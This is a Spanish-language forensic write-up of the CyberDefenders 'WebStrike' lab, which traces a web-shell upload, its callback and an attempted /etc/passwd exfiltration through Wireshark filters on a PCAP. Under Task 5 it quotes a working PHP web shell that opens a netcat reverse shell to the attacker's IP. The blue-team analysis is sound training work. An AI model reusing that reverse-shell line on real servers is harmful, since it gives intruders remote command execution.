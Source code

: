 ```yaml
---
title: WebStrike - CyberDefenders
published: 2025-02-16
description: 'En este laboratorio, se investigó un incidente de seguridad en un servidor web mediante un archivo PCAP. Se detectó la carga no autorizada de un web shell malicioso, ejecución de comandos y exfiltración de datos. Se analizan los métodos del atacante, vulnerabilidades explotadas y técnicas para acceso no autorizado al servidor.'
image: '../../../assets/CyberDefenders/WebStrike/webstrike-banner.png'
tags: [CyberDefenders, BlueTeam, Network Forensics, SOC, Wireshark, Windows]
category: 'WriteUp'
draft: false 
---
```


En este laboratorio de **[CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)**, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.

~~~
Platform: CyberDefenders
Level: Easy
Type: SOC, Network Forensics
~~~

### Lab Scenario

> Se identificó un archivo sospechoso en el servidor web de la empresa, lo que generó alertas dentro de la intranet. El equipo de Desarrollo marcó la anomalía, sospechando de una posible actividad maliciosa. Para abordar el problema, el equipo de redes capturó el tráfico de red crítico y preparó un archivo PCAP para su revisión. Tu tarea es analizar el archivo PCAP proporcionado para descubrir cómo apareció el archivo y determinar el alcance de cualquier actividad no autorizada.

### Key Information

- Un archivo **`PCAP (Packet Capture)`** es un archivo utilizado para almacenar datos de red capturados, es decir, las comunicaciones o paquetes de datos que viajan a través de una red. Debido a que un archivo PCAP puede contener información sensible, como credenciales o datos personales, su manejo debe ser adecuado para evitar fugas de información.

- La **`data exfiltration`** es el proceso de obtener o transferir datos de un sistema o red sin autorización. Este término se utiliza principalmente en el contexto de la ciberseguridad, donde se refiere al robo o fuga de información sensible, como datos personales, secretos comerciales, información financiera o cualquier otro tipo de dato valioso.

### Analysis

**`Wireshark`** es una de las herramientas más populares y utilizadas para el análisis y captura de paquetes de red. Es un **analizador de protocolos de red** de código abierto que permite a los usuarios capturar, inspeccionar y analizar el tráfico que pasa por una red.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-1.png)

#### Task #1

> **Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?**

La **geolocalización IP** es el proceso mediante el cual se determina la ubicación física asociada a una dirección IP, utilizando datos como el país, la ciudad, la latitud y el proveedor de servicios de internet (ISP). En el ámbito de la ciberseguridad, esta herramienta resulta esencial para identificar el origen de actividades en la red, como ataques o accesos no autorizados, y es fundamental para implementar medidas de geo-bloqueo y ajustar estrategias contra amenazas cibernéticas.

Al abrir el archivo `PCAP` con **Wireshark**, observamos que solo hay dos direcciones IP involucradas:

- **`117.11.88.124`**
- **`24.49.63.79`**

Al ordenar los paquetes por tiempo, descubrimos que la dirección IP **`117.11.88.124`** estableció conexión a la dirección **`24.49.63.79`**, lo que sugiere que esta dirección podría pertenecer al atacante. Utilizando la herramienta **[https://www.iplocation.net/](https://www.iplocation.net/)**, podemos obtener la ciudad de origen del ataque.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-2.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-3.png)

Por lo visto, la ciudad de origen del ataque es **Tiajin, China** y la victima es procedente de **Maryland, United States**. Por lo que efectivamente, la dirección IP del atacante es **`117.11.88.124`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-1.png)

#### Task #2

> **Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's User-Agent?**

Un **User-Agent (UA)** es una cadena de texto que se incluye en los encabezados HTTP de una solicitud de red, enviada por un cliente (generalmente un navegador web, pero también puede ser una aplicación u otro tipo de cliente) al servidor. Esta cadena proporciona información detallada sobre el software que realiza la solicitud. Buscamos los encabezados **`HTTP`**:

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-4.png)

La cadena **`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`**. indica que la solicitud proviene de un navegador **Firefox** versión **115.0**, que se está ejecutando en un sistema **Linux** de 64 bits. El sistema utiliza **X11**, el sistema de ventanas estándar en entornos Unix y Linux. El motor de renderizado utilizado es **Gecko** versión **109.0**, y la fecha de compilación de ese motor es **20100101**. Además, el valor "Mozilla/5.0" es un identificador genérico utilizado para asegurar la compatibilidad con servidores antiguos.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-2.png)

#### Task #3

> **We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?**

Una **web shell** es un script malicioso que se carga en un servidor web para permitir a un atacante ejecutar comandos arbitrarios en el servidor de forma remota. Las **web shells** suelen aprovechar vulnerabilidades en aplicaciones web, como malas configuraciones o fallos en la seguridad de scripts o plataformas (por ejemplo, PHP, ASP, etc.). Una vez instalada, la web shell permite al atacante realizar una variedad de acciones. Básicamente, actúa como una puerta trasera que da acceso al atacante al sistema comprometido, lo que le permite controlar y manipular el servidor sin la autorización del administrador. Los atacantes suelen cargar la web shell mediante formularios de carga de archivos o enviando peticiones con scripts maliciosos. 

En este contexto, el atacante suele utilizar el método **POST** para cargar un archivo malicioso (como un script PHP, ASP, JSP, etc.) en el servidor web. Por lo que al utilizar el filtro **`ip.src == 117.11.88.124 && http.request.method == "POST"`**, podemos concentrarnos en las solicitudes **POST** que provienen de una dirección IP específica, lo cual nos ayuda a identificar posibles cargas de archivos maliciosos o comandos ejecutados desde esa IP hacia el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-5.png)

Luego de aplicar el filtro en Wireshark para filtrar por el método **POST**, notamos que se realizó una petición HTTP con la siguiente información:

**POST /reviews/upload.php HTTP/1.1**
- **Content-Type**: `application/x-php`
- **Filename**: `"image.jpg.php"`

Este detalle es altamente sospechoso, ya que aunque el archivo parece ser una imagen (por la extensión **.jpg**), el nombre del archivo termina en **.php**, lo que sugiere que el atacante está intentando subir un archivo PHP malicioso disfrazado de imagen.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-3.png)

#### Task #4

> **Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?**

Para identificar la ruta en la que se almacena el archivo cargado, en este caso, se utiliza el filtro **`ip.src == 117.11.88.124 && http.request.uri contains "image.jpg.php"`**. Este filtro permite aislar todas las solicitudes **HTTP** relacionadas con la ruta **`image.jpg.php`**, lo cual es crucial para detectar **intentos de ejecución o acceso** al archivo malicioso cargado. Dicho filtro resulta especialmente útil para rastrear los esfuerzos del atacante por interactuar con el archivo y ejecutar código malicioso en el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-6.png)

Se observa que la **web shell** se almacena en la ruta **`/reviews/uploads/`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-4.png)

#### Task #5 

> **Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?**

Para identificar el puerto abierto en la máquina atacante, es necesario examinar la web shell. Al revisar el payload, podemos observar que el puerto utilizado es el **8080**, ya que en el código de la web shell se encuentra la siguiente instrucción:

**`<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 nc 117.11.88.124 8080 >/tmp/f"); ?>`**

Este comando utiliza **Netcat** (`nc`) para establecer una conexión saliente hacia la IP **117.11.88.124** a través del puerto **8080**, lo que confirma que este puerto es el objetivo de la comunicación no autorizada.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-7.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-5.png)

#### Task #6

> **Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?**

Se puede observar que el atacante está utilizando **CURL** para transferir el archivo **`/etc/passwd`** desde la máquina comprometida hacia su propia máquina, estableciendo la comunicación a través del puerto **443**. 

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-8.png)

El archivo **`passwd`** contiene información crítica sobre las cuentas de usuario del sistema, lo que indica que el atacante está intentando exfiltrar datos sensibles.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-6.png)

**[Verify Achievment](https://cyberdefenders.org/blueteam-ctf-challenges/progress/Yw4rf/149/)**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-cyberdefenders.png)